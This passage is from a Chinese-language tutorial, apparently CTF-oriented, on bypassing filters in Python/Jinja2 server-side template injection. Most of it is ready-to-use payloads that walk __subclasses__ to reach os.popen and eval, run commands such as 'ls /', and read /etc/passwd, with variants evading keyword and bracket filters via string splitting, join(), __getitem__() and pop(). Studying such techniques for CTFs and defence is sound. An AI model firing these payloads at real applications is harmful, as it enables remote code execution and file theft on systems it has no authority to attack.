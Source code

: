 ```
().__class__.__base__.__subclasses__()[77].__init__.__globals__['o''s'].popen('ls').read(){{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil''tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在 payload 中，只要是字符串的，即 payload 中引号内的，都可以用引号绕过。

### 利用 join() 函数绕过

我们可以利用 join() 函数来绕过关键字过滤。例如，题目过滤了 flag，那么我们可以用如下方法绕过：

```
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
```

绕过其他字符
------

### 过滤了中括号 [ ]

**利用 `__getitem__()` 绕过**

可以使用 `__getitem__()` 方法输出序列属性中的某个索引处的元素，如：

```
"".__class__.__mro__[2]"".__class__.__mro__.__getitem__(2)['__builtins__'].__getitem__('eval')
```

如下示例：

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(40)('/etc/passwd').read()}}       // 指定序列属性{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```

**利用 pop() 绕过**

pop() 方法可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值，如下示例：

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}       // 指定序列属性{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```

注意：最好不要用 pop()，因为 pop() 会删除相应位置的值。

**利用字典读取绕过**

我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号 `[]` 里来访问，一种就是用点 `.` 来访问。所以，当方括号 `[]` 被过滤之后，我们还可以用点 `.` 的方式来访问，如下示例

```
// __builtins__.eval(){{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

